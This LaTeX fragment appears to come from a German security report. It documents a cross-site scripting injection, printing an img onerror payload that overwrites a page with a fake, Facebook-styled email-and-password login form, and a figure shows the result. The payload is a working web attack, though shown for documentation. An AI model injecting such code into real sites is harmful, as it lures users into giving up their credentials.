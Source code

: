 \documentclass[
    a4paper,
    pagesize,
	pdftex,
    12pt,
]{scrartcl}
\begin{document}
\noindent Dann wurde eine Phishing-Seite imitiert, die eine legitime Website nachahmt, mit dem Ziel Benutzerdaten zu stehlen:
\begin{lstlisting}[breaklines]
	<img src="" onerror="(function(){
		document.body.innerHTML = `
		<div style='position: fixed; top: 0; left: 0; width: 100%; height: 100%; background-color: #f0f2f5; display: flex; justify-content: center; align-items: center;'>
		<div style='background-color: #fff; padding: 20px; border-radius: 8px; box-shadow: 0 2px 4px rgba(0,0,0,0.1); width: 360px; text-align: center;'>
		<h2 style='color: #1877f2; font-family: Helvetica, Arial, sans-serif; margin-bottom: 20px;'>Website</h2>
		<form>
		<input type='text' placeholder='Email or Phone Number' style='width: 100%; padding: 10px; margin-bottom: 10px; border: 1px solid #ddd; border-radius: 4px; box-sizing: border-box;'>
		<input type='password' placeholder='Password' style='width: 100%; padding: 10px; margin-bottom: 20px; border: 1px solid #ddd; border-radius: 4px; box-sizing: border-box;'>
		<button type='submit' style='width: 100%; padding: 10px; background-color: #1877f2; color: white; border: none; border-radius: 4px; font-size: 16px; cursor: pointer;'>Log In</button>
		</form>
		<div style='margin-top: 10px;'>
		<a href='#' style='color: #1877f2; font-size: 14px; text-decoration: none;'>Forgotten password?</a>
		</div>
		</div>
		</div>
		`;
	}())">
\end{lstlisting}

\noindent Diese Injektion ersetzt den gesamten Inhalt der Webseite durch eine Login-Maske, die Benutzer zur Eingabe ihrer Anmeldedaten verleiten könnte. Das Ergebnis dieser Injektion ist in der folgenden Abbildung dargestellt:

\begin{figure}[H]
	\centering
	\includegraphics[width=17cm]{xss-phishing-page-injection.png}
	\caption{Darstellung der XSS-injizierten Phishing-Seite}
	\label{fig:xss-phishing-page-injection}
\end{figure}
\end{document}
